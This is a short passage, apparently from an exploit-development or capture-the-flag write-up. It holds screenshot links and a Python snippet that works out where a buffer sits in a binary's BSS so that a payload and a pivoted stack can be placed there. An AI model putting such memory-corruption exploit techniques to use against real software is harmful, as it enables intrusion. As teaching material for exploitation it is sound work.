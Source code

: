 ![alt text](images/bufferBSS.png)
![alt text](images/basePageBSS.png)

Note: `e.bss()` returns the base page of the BSS plus an offset of 0x20.

```python
sBss =      0x555555558020
sBuffer =   0x5555555587d8 # This offset is due to the new stack being in the BSS, which needs to be larger to accommodate the stack frames of functions like printf and scanf.

offsetToPayload = sBuffer - sBss
bufferBss = e.bss() + offsetToPayload + 8 # this +8 is just for stack aligment required by some functions.
```

---

